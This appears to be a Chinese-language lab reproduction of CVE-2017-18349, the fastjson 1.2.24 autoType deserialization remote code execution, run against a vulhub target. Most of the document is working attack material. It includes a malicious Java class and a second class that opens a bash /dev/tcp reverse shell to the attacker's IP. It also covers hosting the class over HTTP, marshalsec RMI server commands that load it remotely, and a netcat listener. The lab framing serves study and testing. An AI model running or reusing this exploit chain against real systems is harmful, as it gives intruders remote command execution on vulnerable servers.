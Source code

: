 > # CVE-2017-18349

# 0x00 漏洞概述
CVE-2017-18349，前台无回显RCE
fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。
​

# 0x01 影响范围
> fastjson<=1.2.24

​

# 0x02 漏洞分析

- [漏洞原理分析](https://www.dazhuanlan.com/alfie-momo/topics/994245)
# 0x03 环境搭建
靶机 vulhub：192.168.198.134
攻击机 kali：192.168.198.136
# 0x04 漏洞复现
## 4.1 创建文件
### 1、访问网站
靶机网页，出现json格式数据

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637769870459-6a12d565-239f-4ff3-a63c-2864dba482db.png#clientId=u3ffa8ee0-3db9-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=211&id=ua5d0a75a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=211&originWidth=494&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22175&status=done&style=none&taskId=ua0910123-7170-45f0-9863-a6a18dad4e4&title=&width=494)


### 2、创建恶意java文件 -> class文件
在kali上新建一个TouchFile.java，文件内容如下：
```bash
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing

        }

    }
}
```
将TouchFile.java编译成class文件
`javac TouchFile.java`
​

使用python开启站点：
`python3 -m http.server 8888`

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637770059341-34ae9685-4459-4664-9264-0d399ff926d3.png#clientId=u3ffa8ee0-3db9-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=66&id=udc37eda9&margin=%5Bobject%20Object%5D&name=image.png&originHeight=66&originWidth=509&originalType=binary&ratio=1&rotation=0&showTitle=false&size=28544&status=done&style=none&taskId=uadc082df-bfa4-4e17-a70f-afddef70a0b&title=&width=509)


### 3、编译使用java反序列化工具marshalsec
然后借助marshalsec项目，启动一个RMI服务器，监听9999端口，并制定加载远程类TouchFile.class：（marshalsec-0.0.3-SNAPSHOT-all.jar需要下载，编译，特别坑）
安装mvn
```bash
1、下载mvn
wget http://mirrors.cnnic.cn/apache/maven/maven-3/3.5.4/binaries/apache-maven-3.5.4-bin.tar.gz

2、解压安装
tar -zxvf apache-maven-3.5.4-bin.tar.gz

3、版本控制
update-alternatives --install /usr/bin/mvn mvn /opt/apache-maven-3.5.4/bin/mvn 1

4、在/etc/profile中配置maven环境变量
这里路径写/opt/apache-maven-3.5.4，就是maven安装路径。

# maven
export MAVEN_HOME=/opt/apache-maven-3.5.4
export PATH=$PATH:$MAVEN_HOME/bin

5、使配置生效
source /etc/profile

进入环境后查看mvn版本，出现以下界面则maven成功安装。

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637770914815-e0f0101e-a18c-4bd6-a7a6-7c219b7f10e6.png#clientId=u3ffa8ee0-3db9-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=117&id=ubf586b7f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=117&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69274&status=done&style=none&taskId=u8ca34e23-f453-4bff-b3e2-2b47ce2ade0&title=&width=554)


安装marshalsec
```bash
git clone https://github.com/mbechler/marshalsec.git

cd marshalsec/

# 进入mvn环境
source /etc/profile

mvn clean package -DskipTests
```
​

当查看到绿色的SUCCESS时，即可成功编译好marshalsec的jar包：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637771398769-b60c445a-3738-438f-a467-ba384de03e6a.png#clientId=u3ffa8ee0-3db9-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=166&id=uc25b5049&margin=%5Bobject%20Object%5D&name=image.png&originHeight=166&originWidth=1067&originalType=binary&ratio=1&rotation=0&showTitle=false&size=35185&status=done&style=none&taskId=u8721354a-6d9a-4f6e-96e7-444be052811&title=&width=1067)


[java 反序列化利用工具 marshalsec 使用简介](https://blog.csdn.net/whatday/article/details/107942941)


然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个 RMI 服务器，监听 9999 端口，并制定加载远程类TouchFile.class：
```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://攻击方ip:8888/#TouchFile" 9999

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637772775255-f37bd4d8-3834-48c5-8266-38b59454aab2.png#clientId=u3ffa8ee0-3db9-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=71&id=u4fe2201a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=71&originWidth=1302&originalType=binary&ratio=1&rotation=0&showTitle=false&size=21422&status=done&style=none&taskId=u773ee254-8aec-478c-9b07-9ab944e9330&title=&width=1302)


### 4、burp传恶意json数据
### ​

重新访问页面，抓包修改请求为POST，上传恶意json文件。


![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637773657854-d18f1bf6-4185-4df3-b007-a88d925b3a90.png#clientId=u3ffa8ee0-3db9-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=467&id=uf4b6bc9f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=467&originWidth=948&originalType=binary&ratio=1&rotation=0&showTitle=false&size=71696&status=done&style=none&taskId=u8d676298-f77a-4b45-a73c-89faab04ce0&title=&width=948)


进入靶机查看结果：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637775119618-5e64f0ff-5bd0-4e42-808c-98a6371fe608.png#clientId=u3ffa8ee0-3db9-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=137&id=uccd58c6d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=137&originWidth=898&originalType=binary&ratio=1&rotation=0&showTitle=false&size=43321&status=done&style=none&taskId=u4ec006a2-ad02-4b36-b222-f0e5f285bbe&title=&width=898)


## 4.2 反弹shell
参考链接：

- [fastjson反弹shell](https://blog.csdn.net/guo15890025019/article/details/120532891)​
### 1、制作反弹shell的java文件 -> class文件
**ReverseShell.java 如下：**
```bash
import java.lang.Runtime;
import java.lang.Process;

public class ReverseShell {
 static {
     try {
         Runtime rt = Runtime.getRuntime();
         String[] commands = {"/bin/bash","-c","bash -i >& /dev/tcp/192.168.198.136/4444 0>&1"};
         Process pc = rt.exec(commands);
         pc.waitFor();
     } catch (Exception e) {
    		 // do nothing
         
     }	 
 }
}

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637775760464-e4839c65-cebb-4ed5-a627-fe0684fa0fcb.png#clientId=u3ffa8ee0-3db9-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=338&id=u30b17881&margin=%5Bobject%20Object%5D&name=image.png&originHeight=338&originWidth=890&originalType=binary&ratio=1&rotation=0&showTitle=false&size=60494&status=done&style=none&taskId=u4dc37cc4-57af-416a-90c0-f7f81750567&title=&width=890)


生成class文件：
`javac ReverseShell.java`
​

### 2、python3开启http服务
ReverseShell.class文件所在处开启http服务
`python3 -m http.server 8888`


### 3、kali开启监听
`nc -lvvp 4444`
​

### 4、使用marshalsec
marshalsec使用RMI利用模块：
```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://攻击方ip:8888/#ReverseShell" 9998
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637776787421-137b1de3-6946-480b-a770-948acf58808a.png#clientId=u65a0c547-5c1c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=79&id=ud144309f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=79&originWidth=1319&originalType=binary&ratio=1&rotation=0&showTitle=false&size=30979&status=done&style=none&taskId=u2b7880e8-760e-4242-897b-1d0342c0b59&title=&width=1319)


### 5、burp传恶意json数据
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637777365751-4ca18472-1d4a-4426-b4fc-7b850368e01a.png#clientId=u65a0c547-5c1c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=361&id=u2540c725&margin=%5Bobject%20Object%5D&name=image.png&originHeight=361&originWidth=585&originalType=binary&ratio=1&rotation=0&showTitle=false&size=35040&status=done&style=none&taskId=u1f0374b2-9fda-43a2-857d-987eb4b2f42&title=&width=585)


### 6、kali收到shell
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637777422254-dc31f33b-876f-4da4-a539-da7273f9d247.png#clientId=u65a0c547-5c1c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=427&id=u2f2d0a8c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=427&originWidth=768&originalType=binary&ratio=1&rotation=0&showTitle=false&size=79070&status=done&style=none&taskId=ub47c7fca-a47d-40fd-b329-410036229a8&title=&width=768)






